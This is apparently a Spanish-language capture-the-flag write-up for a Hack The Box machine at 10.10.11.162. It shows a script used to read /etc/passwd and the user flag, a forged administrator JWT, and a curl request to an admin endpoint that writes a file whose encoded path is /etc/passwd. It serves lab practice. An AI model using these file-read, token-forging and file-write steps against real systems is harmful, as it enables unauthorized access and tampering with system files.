 Ver el script 5-scripts / getFile.sh

## Usando el script getFile
Usando el script GetFile vemos los que terminan en sh
```bash
sudo ./getFile.sh -f /etc/passwd | grep "sh$"
[sudo] contraseña para riskoo: 
root:x:0:0:root:/root:/bin/bash
htb:x:1000:1000:htb:/home/htb:/bin/bash
```
Ahora podriamos ver la flag al ver el usuario htb y el directorio /home/htb

```bash
❯ sudo ./getFile.sh -f /home/htb/user.txt
fb89a1a550ae42f603bbee5904b1f409


 el nombre del archivo es: /home/htb/user.txt
```

## json webtoken

Lo que queremos es obtener la palabra clave necesaria para construir nuestro token como administrador y entrar teniendo el control completo

Para ello vamos a ir investigando archivos y siguiendo la traza


🔥Importante🔥 Mirar como se obtiene el token dentro de una vez dentro de linux.md

Ahora tenemos un token que es administrador 

eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjU1Mjc3OTkzLCJpYXQiOjE2NTQ1ODY3OTMsInN1YiI6IjEyIiwiaXNfc3VwZXJ1c2VyIjp0cnVlLCJndWlkIjoiODllN2Y3ZDUtZjFkMy00NjM4LWEzNGQtNWU4MTUyNDU0ZjE0IiwiZGVidWciOnRydWV9.SaE7rWih1omJ5dVYpVRQxrrvcd9ro8NxwtrHby4_9z4

## vamos a escribir en la máquina un archivo 

En la web vimos que hay una zona de escritura que la petición que hace es

```bash
curl -X 'POST' \
  'http://10.10.11.162/api/v1/admin/file/L2V0Yy9wYXNzd2Q%3D' \
  -H 'accept: application/json' \
  -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjU1Mjc3OTkzLCJpYXQiOjE2NTQ1ODY3OTMsInN1YiI6IjEyIiwiaXNfc3VwZXJ1c2VyIjp0cnVlLCJndWlkIjoiODllN2Y3ZDUtZjFkMy00NjM4LWEzNGQtNWU4MTUyNDU0ZjE0In0.hSsQU4-nxMGfCj2EdyuF7c_W5jIUeaON8-WdblCoKYg' \
  -H 'Content-Type: application/json' \
  -d '{
  "file": "hola chavalito"
}'
```

Vamos a arreglarla y le vamos a camibar el token
